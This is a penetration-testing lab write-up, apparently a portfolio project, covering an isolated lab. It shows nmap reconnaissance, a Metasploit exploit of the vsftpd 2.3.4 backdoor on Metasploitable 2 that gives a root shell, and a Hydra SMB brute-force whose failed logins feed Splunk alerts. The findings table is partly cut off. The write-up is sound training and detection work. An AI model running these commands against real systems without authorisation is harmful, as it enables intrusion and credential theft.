


# Phase 4: Attack Simulation and Penetration Testing

**Objective:** Simulate offensive security activities including reconnaissance, vulnerability identification, exploitation, and credential attacks.

---

## Tools Used

- Kali Linux (192.168.56.20)
- Nmap
- Hydra
- Metasploit Framework
- Metasploitable 2 (192.168.56.104)

---

## Step 1: Network Reconnaissance

**Command:**
```bash
nmap -sV -O 192.168.56.0/24
```

**Outcome:** Discovered active systems, open ports, and operating system fingerprints across the lab subnet.

---

## Step 2: Vulnerability Scanning

**Command:**
```bash
nmap -A 192.168.56.104
```



**Findings:** Multiple intentionally vulnerable services were identified on Metasploitable 2, including an exposed FTP service running vsftpd 2.3.4.

---

## Step 3: Exploitation Using Metasploit

**Commands:**
```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.104
set LHOST 192.168.56.20
run
```



**Outcome:** Successfully exploited the vulnerable FTP backdoor on Metasploitable 2 and obtained a root shell.

---

## Step 4: Credential Attack Simulation

**Command:**
```bash
hydra -l Administrator -P passwords.txt smb://192.168.56.30
```

**Outcome:** Generated multiple failed authentication attempts against the Windows 11 workstation over SMB (port 445). These events were captured and analyzed in Splunk as Event ID 4625.

 | Critical |
| Weak authentication exposure | High |
| Poor service hardening | Medium |

---

## Skills Demonstrated

- Penetration Testing
- Vulnerability Identification
- Network Enumeration
- Exploitation Techniques
- Credential Attack Simulation

---

## Lessons Learned

This phase demonstrated how attackers identify and exploit weaknesses in poorly secured systems using publicly available tools.

It also reinforced the importance of logging and monitoring suspicious authentication activity — the Hydra brute-force attempts generated the Event ID 4625 alerts that fed directly into the Splunk dashboards built in Phase 5.
